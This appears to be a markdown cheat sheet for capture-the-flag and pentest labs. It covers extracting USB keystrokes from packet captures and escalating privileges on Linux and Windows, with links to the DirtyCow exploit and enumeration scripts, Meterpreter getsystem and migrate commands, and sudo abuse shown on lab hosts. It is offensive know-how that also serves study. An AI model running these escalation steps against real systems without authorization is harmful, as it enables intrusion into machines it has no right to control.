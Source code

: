 # Packet Capture
* If usb keys are mapped with pcap, we can use this Article to extract usb keys entered: [Link](https://medium.com/@ali.bawazeeer/kaizen-ctf-2018-reverse-engineer-usb-keystrok-from-pcap-file-2412351679f4)
  * Example Command : `tskark.exe -r <FILE_NAME.pcapng> -Y "usb.transfer_types==1" -e "frame.time.epoch" -e "usb.capdata" -Tfields`
  
# Privilige Escalation
* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)
* [Lin Enum Script](https://github.com/rebootuser/LinEnum)
* [Unix Priv Check](https://github.com/pentestmonkey/unix-privesc-check)
* To Use DirtyCow : [Link](https://dirtycow.ninja/) -- Maybe more specifically : [Dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
* Trick to paste code in VI, with format on remote machines `set paste`
* Try `sudo -l` to check what can be run with no-password.
* For windows:
  * In meterpreter shell try `getsystem`
  * In meterpreter shell try `background` and then follow rest of commands...
  * search suggester
  * `use post/multi/recon/local_exploit_suggestor` (Example only)
  * `show options`
  * `set session 1`
  * `run`
  * If worked fine, else Try follow rest of commands...
  * Use this link: [FuzzySec Win Priv Exec](https://www.fuzzysecurity.com/tutorials/16.html)
  * Use this method: [Sherlock](https://github.com/rasta-mouse/Sherlock)
  * If current process doesnt own Privs, use `migrate <PID>` to get more Priviliges in Meterpretor.
* For Linux:
  * If `sudo -l` gives something like this...
  ```
  User www-data may run the following commands on bashed:
    (enemy : enemy) NOPASSWD: ALL
  ```
  We can try like below
  ```
  $ sudo -u enemy /bin/bash
  id
  uid=1001(enemy) gid=1001(enemy) groups=1001(enemy)
  ```
  * If `sudo -l` gives something like this.
  ```
  notch@Blocky:~$ sudo -l
  [sudo] password for notch: 
  Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
  User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
  notch@Blocky:~$ cat /root/root.txt
  cat: /root/root.txt: Permission denied   -- Does not work
  notch@Blocky:~$ sudo cat /root/root.txt  -- Works
  ```
  * If we were able to access FTP and still no root access, we can do like this ...
  ```
  ftp 10.10.10.37
  Connected to 10.10.10.37.
  220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
  Name (10.10.10.37:root): enemy
  331 Password required for enemy
  Password:
  230 User notch logged in
  ```